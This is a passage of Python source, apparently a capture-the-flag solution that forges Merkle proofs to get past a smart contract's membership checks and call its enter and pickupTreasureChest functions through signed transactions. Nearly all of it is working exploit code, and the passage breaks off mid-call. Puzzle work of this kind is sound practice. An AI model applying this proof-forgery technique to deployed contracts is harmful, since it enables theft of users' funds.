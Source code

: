 ```python 
      raise ValueError
  assert len(stack_keys) == 1
  assert j == len(leaves)
  return stack_values[0]


hunters = [
  0x0bc529c00C6401aEF6D220BE8C6Ea1667F6Ad93e,
  0x68b3465833fb72A70ecDF485E0e4C7bD8665Fc45,
  0x6B175474E89094C44Da98b954EedeAC495271d0F,
  0x6B3595068778DD592e39A122f4f5a5cF09C90fE2,
  0xAb5801a7D398351b8bE11C439e05C5B3259aeC9B,
  0xc00e94Cb662C3520282E6f5717214004A7f26888,
  0xD533a949740bb3306d119CC777fa900bA034cd52,
  0xdAC17F958D2ee523a2206206994597C13D831ec7,
]

def solve(deployer_addr: int):
  tree = get_root(hunters, lambda _: True)
  index = bisect.bisect_left(hunters, deployer_addr)
  new_values = hunters[:]
  new_values.insert(index, deployer_addr)
  new_tree = get_root(new_values, lambda x: x != deployer_addr)
  proofs = new_tree.build_proofs()
  assert emulate(proofs, [(deployer_addr, 0)]) == tree.value
  assert emulate(proofs, [(deployer_addr, Web3.toInt(Web3.keccak(abi_encode(deployer_addr, 1))))]) == new_tree.value

  one_pos = 0
  while ((deployer_addr >> one_pos) & 1) == 0:
    one_pos += 1
  zero_pos = 0
  while ((deployer_addr >> zero_pos) & 1) == 1:
    zero_pos += 1

  proofs2 = [0x4c, 0x50, one_pos, new_tree.left.value, 0x50, zero_pos, new_tree.right.value]
  assert emulate(proofs2, [(deployer_addr, 0)]) == new_tree.value

  proofs = list(map(to_bytes32, proofs))
  proofs2 = list(map(to_bytes32, proofs2))

#   print("enter", proofs)
#   print("pickupTreasureChest", proofs)
#   print("findKey", proofs2)

  return proofs, proofs2
 
proofs,proofs2=solve(acct.address)
enter_txn = contract.functions.enter(proofs).buildTransaction({
'nonce': w3.eth.getTransactionCount(acct.address),
'gas': 300000,
'gasPrice': w3.eth.gasPrice
}) 
signed = acct.signTransaction(enter_txn)
tx_id = w3.eth.sendRawTransaction(signed.rawTransaction) 
print(tx_id.hex())



pickupTreasureChest_txn = contract.functions.pickupTreasureChest(proofs).buildTransaction({
'nonce': w3.eth.getTransactionCount(acct.address),
'gas': 300000,
'gasPrice': w3.eth.gasPrice
```